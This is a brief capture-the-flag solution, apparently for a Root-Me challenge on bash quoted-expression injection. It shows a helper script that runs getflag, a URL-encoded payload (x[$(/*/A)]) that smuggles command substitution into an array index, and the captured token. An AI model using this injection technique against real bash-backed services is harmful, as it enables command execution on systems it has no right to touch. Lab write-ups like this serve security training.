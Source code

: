 Web resources: 
- https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection

cat /tmp/A:
```
#!/bin/bash

getflag > /tmp/flag
```
- https://192.168.1.39/?x=x%5B%24(%2F*%2FA)%5D # x[$(/*/A)]
- cat /tmp/flag
```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
